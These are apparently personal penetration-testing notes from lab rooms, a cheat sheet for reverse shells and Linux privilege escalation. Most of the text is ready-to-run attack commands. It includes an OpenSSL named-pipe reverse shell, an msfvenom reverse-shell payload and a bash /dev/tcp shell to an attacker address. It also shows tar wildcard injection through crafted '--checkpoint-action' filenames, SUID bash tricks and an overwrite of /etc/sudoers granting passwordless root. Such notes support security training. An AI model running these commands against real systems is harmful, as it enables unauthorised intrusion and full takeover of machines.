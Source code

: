 ******************* Look at notes THM room Game Zone README.md for various techniques.

# OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# CronJobs - File Permissions 
```bash
cat /etc/crontab
# IF CronJobs runs a <file>.sh script, edit <file>.sh to establish a reverse shell.
```

# CronJobs - Wildcard
```bash
cat /etc/crontab
# Find CronJobs using wildcards.
# Search GTFObins for CronJob command.

# Find out the time to see when the next job will run.
date

### NOTE - I had problems making the scripts executable and callng them.
### Using exec=sh <script>.sh worked, when the others did not.
### See notes from THM Skynet room.
### I was unable to establish a reverse shell.
### Scripts that I chmod +x did not execute.
### Calling he scripts with sh worked.
echo "" > "--checkpoint-action=exec=sh <script>.sh"

# Example using tar.
# Create reverse shell binary with msfvenom.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local IP> LPORT=<port num> -f elf -o shell.elf
# Copy shell.elf to server.
# Make shell.elf executable, on server.
chmod +x /home/user/shell.elf
# Start listener.
nc -nvlp <port num>
# Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
# These filenames will be read as tar arguments, causing tar to execute shell.elf.

## ALTERNATIVES
# Use a bash shell.
echo "bash -i >& /dev/tcp/10.13.25.242/9999 0>&1" > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Make /bin/bash a SUID.
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Copy /bin/bash to a /tmp and make SUID.
printf '#!/bin/bash\ncp /bin/bash /tmp/newbinbash && chmod +s /tmp/newbinbash' > newbinbash.sh
chmod +x newbinbash.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=newbinbash.sh
# Make the current user a sudoer.
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
chmod +x privesc.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=privesc.sh
```

# [Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
##### Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

# [WordPress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

# Cheatsheets
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# References
[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)

[WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)